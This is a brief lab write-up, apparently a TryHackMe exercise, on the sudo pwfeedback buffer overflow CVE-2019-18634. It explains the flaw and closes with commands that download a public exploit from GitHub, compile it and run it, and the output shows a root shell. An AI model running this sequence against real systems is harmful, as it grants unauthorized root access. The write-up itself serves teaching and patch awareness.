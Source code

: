 # CVE-2019-18634 Sudo Buffer Overflow
- sudo version < 1.8.26.
- exploit option called **pwfeedback**.


# pwfeedback
- turned off by default (with the exception of ElementaryOS and Linux Mint)
- pwfeedback makes it so that whenever you type a character, an asterisk `*` is displayed on the screen.
- Inside the /etc/sudoers file it is specified like this (when option is turned on):
![pwfeedback](pic/pwfeedback-demo.png)

it's possible to perform a buffer overflow attack on the sudo command. when a program accepts input from a user it stores the data in a set size of storage space. A buffer overflow attack is when you enter so much data into the input that it spills out of this storage space and into the next "box," overwriting the data in it.


this means if we fill the password box of the sudo command up with a *lot of garbage*, we can inject our own stuff in at the end. This could mean that we get a shell as root! **This exploit works regardless of whether we have any sudo permissions to begin with**, unlike in [CVE-2019-14287](sudovulnsbypass.md) where we had to have a very specific set of permissions in the first place.


Simple POC
![poc](pic/capture-1.png)

Perl to generate a lot of information which we're then passing into the sudo command as a password using the `pipe (|) operator`. Notice that this doesn't actually give us root permissions -- instead it shows us an error message: `Segmentation fault`, which basically means that we've tried to access some memory that we weren't supposed to be able to access. This proves that a buffer overflow vulnerability exists: now we just need to exploit it!


# action
```console
$ wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
$ gcc -o exploit exploit.c
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
Sorry, try again.
# whoami
root
# cat /root/root.txt
```